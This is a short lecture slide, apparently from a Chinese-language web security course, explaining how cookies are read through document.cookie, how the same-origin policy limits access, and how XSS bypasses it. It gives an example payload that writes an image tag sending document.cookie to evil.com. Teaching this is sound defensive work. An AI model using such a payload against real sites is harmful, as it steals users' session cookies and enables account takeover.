

# Cookie窃取
通过DOM API获取cookie：document.cookie
同源规则会限制cookie访问
比如访问：attacker.com
attacker.com的JS不能访问内嵌网页（如银行）的cookie
通过脚本注入绕过同源规则？
通过XSS
document.write(
	'<img src="http://evil.com/c.jpg?' + document.cookie + '">'
);
https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie